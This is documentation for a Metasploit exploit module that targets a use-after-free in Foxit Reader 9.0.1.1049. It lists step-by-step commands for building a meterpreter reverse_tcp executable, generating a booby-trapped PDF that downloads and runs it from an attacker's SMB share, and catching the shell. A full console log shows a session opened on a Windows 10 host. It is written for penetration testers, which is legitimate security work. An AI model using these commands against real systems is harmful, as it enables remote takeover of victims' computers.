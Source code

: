 ## Description

Foxit Reader v9.0.1.1049 and earlier are affected by use-after-free and uninitialized memory vulnerabilities that can be used to gain code execution. This module uses Uint32Array uninitialized memory and text annotation use-after-free vulnerabilities to call WinExec with a share file path to download and execute the specified exe. The module has been tested against Foxit Reader v9.0.1.1049 running on Windows 7 x64 and Windows 10 Pro x64 Build 17134. Windows 10 Enterprise needs to have [insecure logons enabled](https://support.microsoft.com/en-ca/help/4046019) for the exploit to work as expected.

## Vulnerable Application

[Foxit Reader v9.0.1.1049](https://www.exploit-db.com/apps/1040d634123948886f664afc95ec0a5e-FoxitReader901_enu_Setup_Prom.exe) and earlier

## Verification Steps

1. `./msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> --arch x86 -f exe /share/path/tmp.exe`
2. `chmod 777 /share/path/tmp.exe`
3. `./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share <share> ; set lhost <lhost> ; run`
4. `use multi/handler`
5. `set payload windows/meterpreter/reverse_tcp`
6. `set lhost <lhost>`
9. `run -j`
10. Copy pdf over to target. Start Foxit Reader then open pdf from Foxit's Menu.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Foxit Reader v9.0.1.1049 running on Windows 10 Pro x64 Build 17134

```
msfdev@simulator:~/git/metasploit-framework
$ ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.222.197 LPORT=4444 --arch x86 -f exe -o /opt/malicious/tmp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /opt/malicious/tmp.exe
msfdev@simulator:~/git/metasploit-framework
$ chmod 777 /opt/malicious/tmp.exe 
msfdev@simulator:~/git/metasploit-framework
$ ./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share tmp ; set lhost 172.22.222.197 ; run '
exename => tmp.exe
share => tmp
lhost => 172.22.222.197
[*] share_path: \\172.22.222.197\tmp\tmp.exe
[+] test.pdf stored at /home/msfdev/.msf4/local/test.pdf
msf exploit(windows/fileformat/foxit_reader_uaf) > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 172.22.222.197
lhost => 172.22.222.197
msf exploit(multi/handler) > set exitonsession false
exitonsession => false
msf exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.22.222.197:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.197:4444 -> 172.22.222.200:49673) at 2018-08-21 07:50:34 -0500

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP\msfdev
```
